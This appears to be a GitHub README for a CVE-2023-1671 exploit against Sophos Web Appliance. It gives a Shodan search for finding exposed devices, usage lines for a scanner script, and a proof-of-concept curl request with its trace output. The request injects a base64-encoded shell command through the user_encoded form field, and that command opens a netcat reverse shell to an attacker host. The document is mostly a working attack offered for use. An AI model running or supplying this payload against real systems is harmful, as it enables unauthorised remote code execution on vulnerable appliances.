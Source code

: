 ## CVE-2023-1671
- Shodan dorks: <br/>
	  title:"Sophos Web Appliance" <br/>
	  
### Usage
```
chmod +x scanner.sh
bash scanner.sh target.txt
```  
### POC
	  curl -k --trace-ascii % "https://victim_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"



      => Send header, 184 bytes (0xb8)
      0000: POST /index.php?c=blocked&action=continue HTTP/1.1
      0034: Host: XX.XX.XX.XX
      004a: User-Agent: curl/7.88.1
      0063: Accept: */*
      0070: Content-Length: 120
      0085: Content-Type: application/x-www-form-urlencoded
      00b6:
      => Send data, 120 bytes (0x78)
      0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
      0040: encoded=**************************
